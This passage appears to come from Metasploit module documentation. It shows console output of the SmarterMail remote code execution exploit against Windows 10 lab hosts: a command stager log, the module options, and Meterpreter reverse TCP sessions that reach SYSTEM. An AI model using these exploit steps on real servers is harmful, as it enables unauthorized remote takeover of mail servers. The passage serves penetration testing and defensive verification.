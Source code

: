 ```
[*] Command Stager progress -  76.31% done (77748/101881 bytes)
[*] Command Stager progress -  78.32% done (79794/101881 bytes)
[*] Command Stager progress -  80.33% done (81840/101881 bytes)
[*] Command Stager progress -  82.34% done (83886/101881 bytes)
[*] Command Stager progress -  84.35% done (85932/101881 bytes)
[*] Command Stager progress -  86.35% done (87978/101881 bytes)
[*] Command Stager progress -  88.36% done (90024/101881 bytes)
[*] Command Stager progress -  90.37% done (92070/101881 bytes)
[*] Command Stager progress -  92.38% done (94116/101881 bytes)
[*] Command Stager progress -  94.39% done (96162/101881 bytes)
[*] Command Stager progress -  96.39% done (98208/101881 bytes)
[*] Command Stager progress -  98.40% done (100252/101881 bytes)
[*] Command Stager progress - 100.00% done (101881/101881 bytes)
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55099) at 2023-07-06 05:43:26 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > 
```

### SmarterMail Version 16.3.6989 on Windows 10 Pro

* Using ENDPOINT `Mail`:

```
msf6 > use exploit/windows/http/smartermail_rce
[*] Using configured payload cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/smartermail_rce) > set ENDPOINT Mail
ENDPOINT => Mail
msf6 exploit(windows/http/smartermail_rce) > set RHOSTS 192.168.29.1
RHOSTS => 192.168.29.1
msf6 exploit(windows/http/smartermail_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/smartermail_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response...
[+] Target is running SmarterMail.
[*] Checking SmarterMail product build...
[!] Product build not found. 16.x versions and below do not have a build number.
[*] Checking SmarterMail product version...
[+] Target is running SmarterMail Version 16.3.6989.
[+] The target appears to be vulnerable.
[*] Sending stage (175686 bytes) to 192.168.245.1
[*] Meterpreter session 1 opened (192.168.245.128:4444 -> 192.168.245.1:55147) at 2023-07-06 06:20:19 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-50BU5J8
OS              : Windows 10 (10.0 Build 19045).
Architecture    : x64
```